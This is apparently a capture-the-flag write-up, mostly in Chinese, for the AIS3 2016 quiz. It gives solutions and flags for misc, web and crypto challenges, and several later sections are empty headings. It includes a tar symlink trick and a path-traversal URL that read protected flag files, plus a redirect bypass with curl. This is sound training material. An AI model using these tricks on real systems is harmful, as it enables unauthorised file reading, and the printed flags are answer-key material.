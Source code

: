 ## misc-1
`ais3{2016_^_^_hello_world!}``
## misc-2
`hd UNPACK_ME` 觀察發現類似7z的[signature](http://www.7-zip.org/recover.html):
37 7A BC AF 27 1C 被改成 37 5A BC AF 27 1C
其實他就是把 "7z" 換成 "7Z" XD
Use python mmap to repair:
``` python
with open('','a+') as file:
  mm = mmap.mmap(file.fileno(),0)
  mm[1] = '\x7A'
  mm.close()
```
修好之後被加密了  其中一個0byte的檔名就是密碼
7z x 壓縮檔 -p密碼
接下來一樣的方式修好7z 解壓縮後會有secret.txt, 裡面是下一個檔案的密碼
解壓縮一次size會減少300 bytes左右, 估計包了1000層
``` sh
for i in `seq 1000`;do
  filename=`ls | grep ".\{16,\}"`
  ./repair.py $filename
  7z x $filename -p`cat secret.txt` -y
done
~>cat flag.txt
ais3{7zzZzzzZzzZzZzzZiP}
```
## misc-3
提示是Symbolic Link

程式碼會把上傳的tar檔解壓縮後, 再跟../flag.txt做hash比較
要brute force去做hash collision看起來是不太可行..
後來題示出來之後才知道symbolic link可以隨意指定路徑
```sh
ln -s ../flag.txt guess.txt
tar cvf guess.tar guess.txt
```
## web-1
Google 也找不到的原因就是因為robots.txt的設定
直接打開robots.txt 就能找到隱藏的網頁了
https://quiz.ais3.org:8011/robots.txt
```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```
https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php
`ais3{Y0u_beat_the_G00g1e!!}`
## web-2
Location 會向瀏覽器傳送 redirect 指令
但是原本的網頁還是會傳送到client端
使用無視redirect的curl:
`curl https://quiz.ais3.org:8012/panel.php`
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}</body>
</html>
```
## web-3
[bug](https://bugs.php.net/bug.php?id=55511):
https://quiz.ais3.org:8013/download.php?p=../flag.php&a=10:5
Ha! Ha! You can not see the content of this file, because it is PHP!!! :)
<?php
$flag = "ais3{haha!i_bypassed_the_fucking_waf!}";
?>
## crypto-1
`xortool crypto1`
發現可能的長度為 13 or 39
`xortool crypto1 -l 13 -c 00`
不是flag
`xortool crypto1 -l 39 -c 00`
會看到AIS字樣, 看來十分接近了
改用空格分析:
`xortool crypto1 -l 39 -c 20`
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_i!ea}`
上傳之後發現答案是錯的OAO
根據某位大大的說法只好自己腦補一下XD
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}`
不知道是不是bug還是解法不對
## crypto-2

## crypto-3
## remote-1
## remote-2
## remote-3
## binary-1
## binary-2
## binary-3
